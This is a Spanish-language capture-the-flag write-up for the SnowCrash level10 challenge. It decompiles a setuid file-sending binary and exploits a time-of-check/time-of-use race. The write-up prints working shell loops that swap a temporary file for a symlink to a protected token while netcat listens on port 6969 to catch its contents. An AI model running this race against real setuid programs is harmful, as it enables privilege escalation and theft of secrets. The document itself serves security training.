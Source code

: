 - Dos archivos con estos permisos:
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
- ejecuto el ./level10
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
- Creo un archivo en tmp y ejecuto sobre este
echo "HOLA" > /tmp/a
./level10 /tmp/a $(hostname -I)
./level10 file host
        sends file to host if you have access to it
- Parece que ./level10 envía el contenido de una archivo a una ip
- Descargamos en local el archivo level10
- Descompilamos con Ghidra
- En el main encontramos:
38 printf("Connecting to %s:6969 .. ",__cp)
- El puerto que espera la conexion es el 6969
- Usamos tmux en la maquina snow-crash

- console1:
level10@SnowCrash:~$ echo "HOLA" > /tmp/a

- console2:
level10@SnowCrash:~$ nc -l 6969

- console1:
level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)

- console2 output:
.*( )*.
HOLA

- Bien, sabemos lo que hace
- Volvemos a Ghidra
- Vemos:
36  iVar2 = access((char *)in_stack_00000008[1],4);
37  if (iVar2 == 0) 
    { ... }
89  else {
90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
91  }
- Solo envía el archivo si tenemos permisos de archivo
- Pera hay un posible vector de ataque TOCTOU(Time-of-check to time-to-use)
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
https://lucabarile.github.io/Blog/toctou/index.html

- condole1:
level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done

- console2:
level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done

- console3:
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done

- tenemos la pass :)

